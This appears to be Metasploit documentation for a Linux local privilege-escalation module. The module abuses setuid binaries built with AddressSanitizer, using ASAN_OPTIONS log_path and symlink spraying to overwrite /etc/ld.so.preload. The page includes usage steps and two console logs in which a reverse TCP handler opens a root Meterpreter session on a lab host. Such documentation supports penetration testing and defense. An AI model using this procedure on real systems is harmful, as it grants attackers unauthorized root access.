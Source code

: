 ## Description

  This module attempts to gain root privileges on Linux systems using
  setuid executables compiled with AddressSanitizer (ASan).

  ASan configuration related environment variables are permitted when
  executing setuid executables built with libasan. The `log_path` option
  can be set using the `ASAN_OPTIONS` environment variable, allowing
  clobbering of arbitrary files, with the privileges of the setuid user.

  This module uploads a shared object and sprays symlinks to overwrite
  `/etc/ld.so.preload` in order to create a setuid root shell.


## Vulnerable Application

  [AddressSanitizer](https://clang.llvm.org/docs/AddressSanitizer.html) (ASan)
  is a fast memory error detector. It consists of a compiler instrumentation
  module and a run-time library.

  An example executable can be compiled with ASan as follows:
 
  ```
  gcc -s -lasan -fsanitize=address -o asan.elf helloworld.c
  sudo mv asan.elf /usr/bin/asan.elf
  sudo chown root:root /usr/bin/asan.elf
  sudo chmod u+s /usr/bin/asan.elf
  ```


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use use exploit/linux/local/asan_suid_executable_priv_esc`
  4. `set SESSION [SESSION]`
  5. `set SUID_EXECUTABLE /path/to/suid/compiled/with/asan`
  6. `check`
  7. `run`
  8. You should get a new *root* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **SUID_EXECUTABLE**

  Path to a SUID executable compiled with ASan. (default: ``)

  **SPRAY_SIZE**

  Number of PID symlinks to create. (default: `50`)

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)


## Scenarios

  ### Command Shell Session (Linux Mint 19)

  ```
  msf5 > use exploit/linux/local/asan_suid_executable_priv_esc 
  msf5 exploit(linux/local/asan_suid_executable_priv_esc) > set suid_executable /usr/bin/a.out
  suid_executable => /usr/bin/a.out
  msf5 exploit(linux/local/asan_suid_executable_priv_esc) > set session 1
  session => 1
  msf5 exploit(linux/local/asan_suid_executable_priv_esc) > set verbose true
  verbose => true
  msf5 exploit(linux/local/asan_suid_executable_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [+] /usr/bin/a.out is setuid
  [+] /usr/bin/a.out was compiled with ASan
  [+] gcc is installed
  [*] Writing '/tmp/.pCriI' (291 bytes) ...
  [*] Max line length is 65537
  [*] Writing 291 bytes in 1 chunks of 937 bytes (octal-encoded), using printf
  [*] Writing '/tmp/.JtSfQ1.c' (142 bytes) ...
  [*] Max line length is 65537
  [*] Writing 142 bytes in 1 chunks of 513 bytes (octal-encoded), using printf
  [*] Writing '/tmp/.TCLmzU.so.c' (323 bytes) ...
  [*] Max line length is 65537
  [*] Writing 323 bytes in 1 chunks of 1167 bytes (octal-encoded), using printf
  [*] Writing '/tmp/.V7OEFt.c' (253 bytes) ...
  [*] Max line length is 65537
  [*] Writing 253 bytes in 1 chunks of 906 bytes (octal-encoded), using printf
  [*] Writing '/tmp/.LpfTKJwR' (256 bytes) ...
  [*] Max line length is 65537
  [*] Writing 256 bytes in 1 chunks of 942 bytes (octal-encoded), using printf
  [*] Launching exploit...
  [+] Success! /tmp/.JtSfQ1 is set-uid root!
  -rwsr-xr-x 1 root root 8384 Jan 12 19:30 /tmp/.JtSfQ1
  [*] Executing payload...
  [*] Transmitting intermediate stager...(106 bytes)
  [*] Sending stage (914728 bytes) to 172.16.191.211
  [*] Meterpreter session 2 opened (172.16.191.188:4444 -> 172.16.191.211:56074) at 2019-01-12 03:30:47 -0500
  [+] Deleted /tmp/.JtSfQ1.c
  [+] Deleted /tmp/.TCLmzU.so.c
  [+] Deleted /tmp/.TCLmzU.so
  [+] Deleted /tmp/.V7OEFt.c
  [+] Deleted /tmp/.V7OEFt
  [+] Deleted /tmp/.LpfTKJwR

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.211
  OS           : LinuxMint 19 (Linux 4.15.0-20-generic)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  meterpreter > 
  ```

  ### Meterpreter Session (Linux Mint 19)

  ```
  msf5 > use exploit/linux/local/asan_suid_executable_priv_esc 
  msf5 exploit(linux/local/asan_suid_executable_priv_esc) > set session 1
  session => 1
  msf5 exploit(linux/local/asan_suid_executable_priv_esc) > set suid_executable /usr/bin/a.out
  suid_executable => /usr/bin/a.out
  msf5 exploit(linux/local/asan_suid_executable_priv_esc) > set verbose true
  verbose => true
  msf5 exploit(linux/local/asan_suid_executable_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [+] /usr/bin/a.out is setuid
  [+] /usr/bin/a.out was compiled with ASan
  [+] gcc is installed
  [*] Writing '/tmp/.XBKiFa' (291 bytes) ...
  [*] Writing '/tmp/.ooMwKnEXt.c' (142 bytes) ...
  [*] Writing '/tmp/.cWZL3A.so.c' (329 bytes) ...
  [*] Writing '/tmp/.78iKLJOvX.c' (254 bytes) ...
  [*] Writing '/tmp/.WkXgm2agJ8' (261 bytes) ...
  [*] Launching exploit...
  [+] Success! /tmp/.ooMwKnEXt is set-uid root!
  -rwsr-xr-x 1 root root 8384 Jan 12 19:42 /tmp/.ooMwKnEXt
  [*] Executing payload...
  [*] Transmitting intermediate stager...(106 bytes)
  [*] Sending stage (914728 bytes) to 172.16.191.211
  [*] Meterpreter session 2 opened (172.16.191.188:4444 -> 172.16.191.211:56080) at 2019-01-12 03:42:43 -0500
  [+] Deleted /tmp/.XBKiFa
  [+] Deleted /tmp/.ooMwKnEXt.c
  [+] Deleted /tmp/.cWZL3A.so.c
  [+] Deleted /tmp/.cWZL3A.so
  [+] Deleted /tmp/.78iKLJOvX.c
  [+] Deleted /tmp/.78iKLJOvX
  [+] Deleted /tmp/.WkXgm2agJ8

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.211
  OS           : LinuxMint 19 (Linux 4.15.0-20-generic)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  meterpreter > 
  ```

